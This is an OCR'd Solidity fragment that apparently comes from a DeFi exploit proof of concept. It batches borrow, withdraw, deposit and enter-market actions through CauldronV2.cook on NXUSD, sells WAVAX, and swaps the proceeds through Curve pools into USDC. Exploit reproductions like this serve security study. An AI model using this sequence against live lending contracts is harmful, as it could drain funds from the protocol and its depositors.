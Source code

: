 │         // cook function in CauldronV2                                                                                                                                                                                                               │
│         bytes[] memory datas = new bytes[](4);                                                                                                                                                                                                       │
│         datas[0] = abi.encode(borrowAmounts, address(this)); // type borrow                                                                                                                                                                          │
│         datas[1] = abi.encode(NXUSD, address(this), borrowAmounts,share); // type withdraw                                                                                                                                                           │
│         datas[2] = abi.encode(Pair, address(this), 45330977931305070, share); // type deposit                                                                                                                                                        │
│         datas[3] = abi.encode(-2, address(this), false); // Collateral enter market                                                                                                                                                                  │
│         CauldronV2.cook(actions, values, datas);                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                      │
│         // sell WAVAX`                                                                                                                                                                                                                               │
│         sellWAVAX();                                                                                                                                                                                                                                 │
│         // NXUSD -> avCRV -> USDC_e                                                                                                                                                                                                                  │
│         CRVPool1.exchange_underlying(                                                                                                                                                                                                                │
│             metaPool,                                                                                                                                                                                                                                │
│             0,                                                                                                                                                                                                                                       │
│             2,                                                                                                                                                                                                                                       │
│             998_000 * 1e18,                                                                                                                                                                                                                          │
│             950_000 * 1e6                                                                                                                                                                                                                            │
│         );                                                                                                                                                                                                                                           │
│         // USDC_e -> USDC                                                                                                                                                                                                                            │
│         USDC_e.approve(address(CRVPool2), type(uint).max);                                                                                                                                                                                           │
│         CRVPool2.exchange(0, 1, 800_000 * 1e6, 700_000 * 1e6);                                                                                                                                                                                       │